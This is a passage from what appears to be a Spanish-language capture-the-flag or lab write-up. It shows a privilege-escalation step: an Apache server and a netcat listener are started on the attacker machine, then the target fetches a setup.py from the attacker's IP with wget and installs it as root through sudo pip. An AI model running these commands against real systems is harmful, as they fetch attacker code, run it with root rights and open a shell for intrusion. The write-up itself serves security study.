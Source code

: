     ```bash
    service apache2 start
    ```
3.  Abre un puerto para escuchar conexiones entrantes en la máquina local:

    ```bash
    nc -lnvp 13372
    ```

**En la máquina objetivo**

1.  Descarga el archivo `setup.py` desde el servidor Apache:

    ```bash
    wget http://192.168.1.2/setup.py
    ```
2.  Instala el archivo usando `pip`, asegurándote de forzar la reinstalación y actualización:

    ```bash
    sudo /usr/bin/pip install . --upgrade --force-reinstall
    ```

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

Hemos **completado con éxito** todas las etapas del proceso y **cumplido con todos los requisitos**.
